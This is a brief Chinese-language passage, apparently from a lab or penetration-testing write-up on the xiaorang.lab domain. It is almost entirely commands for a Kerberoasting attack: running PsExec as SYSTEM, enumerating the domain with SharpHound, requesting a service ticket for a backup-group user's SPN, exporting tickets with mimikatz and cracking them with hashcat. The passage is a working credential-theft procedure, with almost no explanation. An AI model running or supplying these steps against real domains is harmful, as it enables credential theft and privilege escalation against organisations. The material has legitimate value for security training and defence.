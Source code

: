 收集 spn 信息

```bash
PsExec.exe -accepteula -s -i -d cmd.exe
SharpHound.exe -c all
```

TIANJING 这个域用户在备份组里, SPN 为 `'WWW/xr-0923.xiaorang.lab/IIS'`

* 申请 st

```bash
Import-Module .\Invoke-Kerberoast.ps1
$SPNName = 'WWW/xr-0923.xiaorang.lab/IIS'
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName

# 查看SPN的ST
klist

# 用mimikatz导出请求的ST：
.\mimikatz.exe "privilege::debug" "kerberos::list /export" "exit" > 1.txt

# 票据保存重命名为1.kirbi了
python /usr/share/john/kirbi2john.py /tmp/1.kirbi > output.txt
# hashcat爆破spn-st
hashcat -m 13100 output.txt rockyou.txt --force
```
